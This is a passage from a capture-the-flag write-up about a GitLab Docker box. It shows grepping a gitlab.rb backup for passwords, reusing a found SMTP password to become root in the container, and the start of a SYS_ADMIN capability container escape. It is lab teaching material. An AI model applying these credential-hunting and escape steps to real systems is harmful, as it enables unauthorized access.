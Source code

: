 ```bash
gitlab.rb:##! `SQL_USER_PASSWORD_HASH` can be generated using the command `gitlab-ctl pg-password-md5 gitlab`
gitlab.rb:# postgresql['sql_user_password'] = 'SQL_USER_PASSWORD_HASH'
gitlab.rb:# postgresql['sql_replication_password'] = "md5 hash of postgresql password" # You can generate with `gitlab-ctl pg-password-md5 <dbuser>`
gitlab.rb:# redis['password'] = 'redis-password-goes-here'
gitlab.rb:####! **Master password should have the same value defined in
gitlab.rb:####!   redis['password'] to enable the instance to transition to/from
gitlab.rb:# redis['master_password'] = 'redis-password-goes-here'
gitlab.rb:# geo_secondary['db_password'] = nil
gitlab.rb:# geo_postgresql['pgbouncer_user_password'] = nil
gitlab.rb:#     password: PASSWORD
gitlab.rb:###! generate this with `echo -n '$password + $username' | md5sum`
gitlab.rb:# pgbouncer['auth_query'] = 'SELECT username, password FROM public.pg_shadow_lookup($1)'
gitlab.rb:#     password: MD5_PASSWORD_HASH
gitlab.rb:# postgresql['pgbouncer_user_password'] = nil
git@gitlab:/opt/backup$
```

`docker-compose.yml` references the `root_pass` file in the root directory, but it also looks like `gitlab.rb` has quite a few hits on password as well.

Now we drill down to find `password` in `gitlab.rb`, but we want to remove results that start with a `#` since those are comments in the file and don't mean anything to us:
```bash
git@gitlab:/opt/backup$ grep 'password' gitlab.rb | grep -v '^#'
grep 'password' gitlab.rb | grep -v '^#'
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
```

That shows us something  interesting. Perhaps we can use this to get docker root:

```bash
git@gitlab:/opt/backup$ su - root
su - root
Password: wW59U!ZKMbG9+*#h

root@gitlab:~#
```

Success!

---

## **Root**

Admittedly, I started looking at breakout attempts before I privesc'd to docker root. When reviewing the LinePEAS output, it showed caps that were enabled. Most of what I found on the web would reference a pretty simple way to gain root on the host box with certain capabilities enabled, which in this case looked like everything. I eventually fell on this [hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#cap_sys_admin) which, with SYS_ADMIN capability enabled, could allow the docker container to "mount the host disk and access it freely."

Oh and if you want to see what capabilites are enabled for you, just run `capsh --print`
